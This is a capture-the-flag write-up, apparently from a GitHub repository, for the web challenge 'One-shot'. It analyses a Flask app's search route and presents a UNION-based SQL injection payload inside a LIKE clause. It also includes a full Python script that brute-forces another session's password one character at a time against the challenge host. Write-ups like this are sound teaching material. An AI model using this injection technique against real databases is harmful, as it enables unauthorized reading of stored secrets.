




# Web/One-shot

## Challenge Description

my friend keeps asking me to play OneShot. i haven't, but i made this cool challenge! http://one-shot.amt.rs

[app.py](./assets/app.py) | [Dockerfile](./assets/Dockerfile)

## Challenge Overview

The challenge was like a guessing game. 



First we are given this page with the `New Session` button. Clicking it takes us to another page with an input box mentioning something about fragments scattered.



First let's try sending some random input like `a` and then see the response.



We get a response back showing us a result and an input box to make our guess. Giving a random answer to this input box returns the message `You failed. Go back` sending us back to the new session page.

Now let's start analyzing the `app.py` file.

* new_session()
    * Generates a random `id` using `os.urandom(8).hex()`.
    * Creates a new table with the name `table_{id}` with two columns -- `password`, `searched`
    * Inserts one value into the created table setting the `password` to a random hex value and the `searched` to `0`.
    * The response returns the form for the search page

* search()
    * This is the fragments scattered... page 
    * Uses a regular expression to match whether we have entered a valid `id`
    * Checks the value of the `searched` column in the table with the `id` created using the `new_session()`. If this value is not `0` then it returns the message `"you've used your shot."`. If this value is `0` then in the next command it updates the table and sets the `searched` value to `1`, indicating that we have already make our search.
    * Next, the function takes the input we give in the input box as the `query` parameter tries to see if it matches the pattern of the password using the `LIKE` command. It executes the command `SELECT password FROM table_{id} WHERE password LIKE '%{request.form['query']}%'`. Thus whatever input we provide goes inside `%{query}%`. 
    * It returns the result of the query in its response along with the form to make the guess. But it only prints the first letter of the passwords it returns thus we cannot know the correct password.

* guess()
    * This is the page asking us to make the guess
    * Simply checks whether we have provided the correct `password` for the **given table id**.
    * If the password guessed is correct then it returns the flag
    * Deletes the table after the check

## Exploit

So in order to solve it, we could do a character by character bruteforce. We know the password is a `32 characters` long. So if we make a query like `a_______________________________`, it checks if the first letter is `a` and the rest of the letter can be anything. If it is correct then it returns the password in the results or else it returns an empty result. We could keep doing this again and again for every letter and get the exact password.

But the issue here is that we can only make one query for a password and then we need to generate a new session guess a new password. In order to bypass this, we need to do a SQL Injection attack. 

SQL Injection query: `%' UNION SELECT password from table_{id_to_guess} WHERE password LIKE '{password}'--`

This injeciton allows us to check the password of a different table id using the query of another table.

The exploit is simple.

* Create a new session which is our `id_to_guess`
* Create a new session which is our `test_id`
* Send the sql injection from the `test_id` and search the password for `id_to_guess`
* After finally getting the password, submit this `password` to the `id_to_guess` and get the flag

### Python exploit

```py
import requests
from tqdm import tqdm

def new_session():
    url = 'http://one-shot.amt.rs/new_session'
    response = requests.post(url).text
    table_id = response.splitlines()
    table_id = table_id[3]
    table_id = table_id.split('"')
    table_id = table_id[5]
    return table_id

def search(table_id, query):
    url = 'http://one-shot.amt.rs/search'
    send_data = {"id": table_id, "query": query}
    response = requests.post(url, data=send_data)
    results = response.text.split('<li>')
    if len(results) == 3:
        return True
    else:
        return False
    
def guess(table_id, password):
    url = 'http://one-shot.amt.rs/guess'
    send_data = {"id": table_id, "password": password}
    response = requests.post(url, data=send_data)
    if 'go back' not in response.text.lower():
        print(response.text)

if __name__ == "__main__":
    id_to_guess = new_session()

    password = '_' * 32
    correct = ''
    for i in tqdm(range(32)):
        password = correct + '_' * (32 - i)
        for letter in '1234567890abcdef':
            password = correct + letter + '_' * (32 - i - 1)
            test_id = new_session()
            if search(test_id, f"%' UNION SELECT password from table_{id_to_guess} WHERE password LIKE '{password}'--"):
                correct += letter
                guess(test_id, "guess")
                break
    print(f"{correct=}")
    guess(id_to_guess, correct)
```

